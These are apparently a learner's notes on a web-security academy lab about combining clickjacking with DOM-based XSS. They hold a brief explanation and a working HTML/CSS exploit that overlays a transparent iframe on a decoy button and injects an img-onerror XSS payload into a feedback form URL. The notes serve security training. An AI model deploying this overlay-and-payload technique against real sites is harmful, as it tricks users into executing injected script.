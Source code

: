 # Combining clickjacking with a DOM XSS attack
- So far, we have looked at clickjacking as a self-contained attack. 
- Historically, clickjacking has been used to perform behaviors such as boosting "likes" on a Facebook page. 
- However, the true potency of clickjacking is revealed when it is used as a carrier for another attack such as a DOM XSS attack. 
- Implementation of this combined attack is relatively straightforward assuming that the attacker has first identified the XSS exploit. 
- The XSS exploit is then combined with the iframe target URL so that the user clicks on the button or link and consequently executes the DOM XSS attack.

# Lab: Exploiting clickjacking vulnerability to trigger DOM-based XSS
- This lab contains an XSS vulnerability that is triggered by a click. 
- Construct a clickjacking attack that fools the user into clicking the "Click me" button to call the print() function.
```
<head>
	<style>
		#target_website {
			position:relative;
			width:500px;
			height:500px;
			opacity: 0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
            top: 452px;
            left: 65px
			}
	</style>
</head>

<body>
	<div id="decoy_website">
        <button>Click Me</button>
	</div>
	<iframe id="target_website" src="https://0a74000104897ac280600381007d00a5.web-security-academy.net/feedback?name=%3Cimg%20src=%27x%27%20onerror=%27print()%27%3E&email=hello@boo.com&subject=good&message=hello">
	</iframe>
</body>
```
- Lab solved fantastically
